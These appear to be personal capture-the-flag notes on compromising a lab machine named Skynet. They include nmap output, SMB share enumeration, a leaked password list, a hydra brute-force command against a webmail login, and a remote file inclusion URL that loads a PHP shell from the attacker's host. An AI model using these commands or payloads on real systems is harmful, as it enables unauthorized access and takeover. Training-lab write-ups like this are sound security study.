 # foothold
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 16:24 EDT
Nmap scan report for 10.10.11.22
Host is up (0.19s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: UIDL SASL AUTH-RESP-CODE PIPELINING RESP-CODES TOP CAPA
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: more OK ID post-login LOGINDISABLEDA0001 ENABLE LITERAL+ listed Pre-login capabilities SASL-IR IMAP4rev1 LOGIN-REFERRALS have IDLE
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m57s, deviation: 2h53m12s, median: -3s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2020-05-04T15:25:02-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:                                                                                                                                                                                            
|   2.02:                                                                                                                                                                                                        
|_    Message signing enabled but not required                                                                                                                                                                   
| smb2-time:                                                                                                                                                                                                     
|   date: 2020-05-04T20:25:02                                                                                                                                                                                    
|_  start_date: N/A                                                                                                                                                                                              
                                                                                                                                                                                                                 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                                                   
Nmap done: 1 IP address (1 host up) scanned in 55.28 seconds 

* Run dirbuster
/admin/ gets 403 now allowed
/config/ gets 403
/squirrelmail/ available

* Run SMBMAP
pat@kali:~/Desktop/Cert_Prep/thm/skynet$ smbmap -u anon -H 10.10.11.22
[+] Guest session       IP: 10.10.11.22:445     Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))

* Mount anonymous
sudo mount -r -t cifs //10.10.11.22/anonymous anonymous_mount/

* Read file
pat@kali:~/Desktop/Cert_Prep/thm/skynet/anonymous_mount$ cat attention.txt                                                                                                                                       
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.                                                            
-Miles Dyson

* log1.txt
pat@kali:~/Desktop/Cert_Prep/thm/skynet/anonymous_mount$ cat logs/log1.txt
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator

- Seems to have a bunch of passwords, maybe one is right? 

pat@kali:~/Desktop/Cert_Prep/thm/skynet$ hydra -l milesdyson -P pw_list.txt 10.10.11.22 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:password incorrect"
gives PW

- login to squirrelmail 
-- find pw reset email
We have changed your smb password after system malfunction.
Password: <>

- mount share
pat@kali:~/Desktop/Cert_Prep/thm/skynet$ smbmap -u milesdyson -H 10.10.11.22 -s milesdyson -p $milesdysonpw
[+] IP: 10.10.11.22:445 Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  READ ONLY       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              READ ONLY       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))

pat@kali:~/Desktop/Cert_Prep/thm/skynet$ sudo mount -r -t cifs //10.10.11.22/milesdyson -o username=milesdyson,password=$milesdysonpw miles_mount/

pat@kali:~/Desktop/Cert_Prep/thm/skynet$ cat miles_mount/notes/important.txt 

1. Add features to beta CMS <>
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife

- Scan new directory
find /administrator/

- search for exploits
pat@kali:~/Desktop/Cert_Prep/thm/skynet$ searchsploit cuppa
------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
 Exploit Title                                                                                                                                                          |  Path
                                                                                                                                                                        | (/usr/share/exploitdb/)
------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                                                                                                         | exploits/php/webapps/25971.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
Shellcodes: No Result

# Access
http://10.10.11.22/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.2.238/phpshell.php?

# Escalate
see crontrab running - can't change that script
maybe some tar cf 
https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

# Win
